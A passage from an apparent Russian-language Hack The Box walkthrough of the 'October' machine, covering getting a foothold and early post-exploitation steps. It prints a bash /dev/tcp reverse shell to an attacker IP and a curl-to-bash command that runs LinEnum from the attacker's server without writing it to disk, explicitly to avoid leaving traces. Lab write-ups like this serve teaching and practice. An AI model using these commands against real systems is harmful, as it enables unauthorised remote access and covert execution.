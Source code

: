 ```
bash -c 'bash -i >& /dev/tcp/10.10.14.15/31337 0>&1'
```

[![burp.png]({{ "/img/htb/boxes/october/burp.png" | relative_url }})]({{ "/img/htb/boxes/october/burp.png" | relative_url }})
{: .center-image}

После отправки запроса можно ловить отклик на netcat.

[![nc-listen.png]({{ "/img/htb/boxes/october/nc-listen.png" | relative_url }})]({{ "/img/htb/boxes/october/nc-listen.png" | relative_url }})
{: .center-image}

Став обладателем грубого шелла, я апгрейдил его до удобного интерактивного PTY-терминала, как [делился](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312) этим когда-то на форуме Hack The Box.

[![nc-upgrade-pty.png]({{ "/img/htb/boxes/october/nc-upgrade-pty.png" | relative_url }})]({{ "/img/htb/boxes/october/nc-upgrade-pty.png" | relative_url }})
{: .center-image}

Таким образом я оказался внутри машины и начал осматриваться вокруг.

[![user-txt.png]({{ "/img/htb/boxes/october/user-txt.png" | relative_url }})]({{ "/img/htb/boxes/october/user-txt.png" | relative_url }})
{: .center-image}

### LinEnum

Одним из наиболее удобных инструментов для сбора информации внутри хоста я считаю [LinEnum](https://github.com/rebootuser/LinEnum). Этот написанный на Bash скрипт покажет всю стратегически важную информацию о системе в простом текстовом формате прямо «здесь и сейчас» — большего нам и не нужно!

Для переброса файлов на машину-жертву удобно пользоваться функционалом простого HTTP-Python-сервера.

Создай временную папку на своем хосте, скопируй в нее скрипт и запусти сервер командой `python -m SimpleHTTPServer 8888` (для Python 2) или `python3 -m http.server 8888` (для Python 3). После этого ты сможешь обратиться к содержимому временной папки с другого хоста в этой сети. Обрати внимание, что все, кто знает нужный IP-адрес и порт, на котором поднят сервер, может получить доступ к чтению файлов внутри корневой директории, поэтому рекомендую создавать именно **отдельную** папку, в которой нет чувствительной информации (а Path Traversal питоновский сервер не подвержен).

Чтобы не оставлять лишних следов на атакуемой машине, скрипт можно выполнить без непосредственного его сохранения на диск — просто выдерни его со своего севера с помощью `curl` и передай на исполнение интерпретатору через пайп.

```
$ curl -s http://10.10.14.15:8888/LinEnum.h | bash -s -- -t
```

С помощью флага `-s` и следующего после него разделителя `--` можно передавать параметры для самого скрипта — в данном случае `-t` [означает](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh#L20) провести более глубокое сканирование.

Некоторые другие быстрые решения для трансфера файлов, обладающие большим функционалом, я рассматривал [здесь](https://snovvcrash.github.io/2018/10/11/simple-http-servers.html).
